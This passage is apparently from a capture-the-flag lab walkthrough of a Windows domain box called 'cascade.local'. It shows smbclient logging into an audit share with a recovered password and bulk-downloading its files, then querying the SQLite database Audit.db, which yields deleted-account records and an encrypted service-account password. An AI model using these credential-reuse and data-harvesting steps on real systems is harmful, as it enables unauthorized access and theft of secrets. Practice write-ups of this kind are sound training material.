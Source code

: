 ### smbclient

* The following setup will recursively download all of the files to your PWD on your Kali machine
* This will save you lots of time

```
smbclient '\\\\10.129.54.147\\Audit$' -U s.smith 
Password: sT333ve2
smb: \> mask ""
smb: \> prompt OFF
smb: \> recurse ON
smb: \> mget *
getting file \CascAudit.exe of size 13312 as CascAudit.exe (41.3 KiloBytes/sec) (average 41.3 KiloBytes/sec)
getting file \CascCrypto.dll of size 12288 as CascCrypto.dll (47.8 KiloBytes/sec) (average 44.2 KiloBytes/sec)
getting file \RunAudit.bat of size 45 as RunAudit.bat (0.3 KiloBytes/sec) (average 35.7 KiloBytes/sec)
getting file \System.Data.SQLite.dll of size 363520 as System.Data.SQLite.dll (1134.2 KiloBytes/sec) (average 374.8 KiloBytes/sec)
getting file \System.Data.SQLite.EF6.dll of size 186880 as System.Data.SQLite.EF6.dll (1002.7 KiloBytes/sec) (average 470.4 KiloBytes/sec)
getting file \DB\Audit.db of size 24576 as DB/Audit.db (118.2 KiloBytes/sec) (average 419.3 KiloBytes/sec)
getting file \x64\SQLite.Interop.dll of size 1639936 as x64/SQLite.Interop.dll (4958.2 KiloBytes/sec) (average 1270.6 KiloBytes/sec)
getting file \x86\SQLite.Interop.dll of size 1246720 as x86/SQLite.Interop.dll (4831.3 KiloBytes/sec) (average 1725.2 KiloBytes/sec)
smb: \> exit
```

* I notice that I get good information from Audit.db

### Audit.db

Open DB file

```
sqlite3 Audit.db
sqlite> .tables
DeletedUserAudit  Ldap              Misc            
sqlite> select * from DeletedUserAudit
   ...> ;
6|test|Test
DEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d|CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
7|deleted|deleted guy
DEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef|CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local
9|TempAdmin|TempAdmin
DEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a|CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local
sqlite> select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```
